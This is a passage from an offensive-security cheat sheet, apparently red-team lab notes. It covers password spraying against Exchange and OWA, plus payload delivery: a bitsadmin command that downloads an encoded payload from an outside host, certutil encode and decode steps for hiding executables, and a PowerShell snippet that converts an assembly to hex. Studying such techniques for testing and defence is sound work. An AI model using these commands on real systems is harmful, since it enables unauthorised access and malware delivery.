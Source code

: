 Other useful MailSniper functions
- Get-GlobalAddressList
- Invoke-SelfSearch

Depending on office version, verify valid accounts with `auxiliary/scanner/http/owa_login`

#### Resources
- http://weakpasswords.net/
- https://github.com/dafthack/MailSniper
- https://github.com/byt3bl33d3r/SprayingToolkit
- https://gist.github.com/superkojiman/11076951
- https://github.com/digininja/CeWL
- https://github.com/tomnomnom/comb
- https://github.com/ropnop/kerbrute

---

## 4. Initial Access

### Delivery

#### Bitsadmin Download

Use bitsadmin to download. *Note, requires full destination path; Python server cannot support required protocols*

```
# encode the payload with certutil 
bitsadmin /Transfer myJob http://192.168.49.83/encoded.txt c:\users\user\desktop\enc.txt
```

#### Certutil Encode/Decode

Use certutil to base64 encode and decode.

```
# encode
certutil -encode input.exe output.txt

# decode
certutil -decode input.txt output.exe
```

#### PowerShell Convert Assembly to Hex

```
$assemblyFile = "assem.dll"
$stringBuilder = New-Object -Type System.Text.StringBuilder
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
    $stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$stringBuilder.ToString() -join "" | Out-File c:\Tools\cmdExec.txt
```
